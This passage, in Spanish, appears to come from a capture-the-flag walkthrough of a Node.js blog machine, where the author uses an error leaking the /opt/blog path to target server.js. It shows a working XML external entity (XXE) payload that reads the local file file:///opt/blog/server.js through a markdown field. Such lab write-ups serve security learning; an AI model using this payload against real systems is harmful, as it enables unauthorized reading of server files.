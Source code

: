 ![[20250723114528.png]](nodeblog-images/20250723114528.png)

y vemos en la respuesta un error que nos muestra el directorio /opt/blog donde podemos pensar que esta almacenada toda la data de la web

tras investigar un poco descubro que lo que esta montado en NODE.js suele tener un archivo server.js y tras averiguar que la pagina se monta en /opt/blog vamos a tratar de leer el archivo server.js con el XXE que ya tenemos 


modificamos el archivo text.xml que teniamos para que quede asi 

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///opt/blog/server.js" >]>

<post>

<title>test</title>

<description>this is a test</description>

<markdown>&xxe;</markdown>

</post>
```
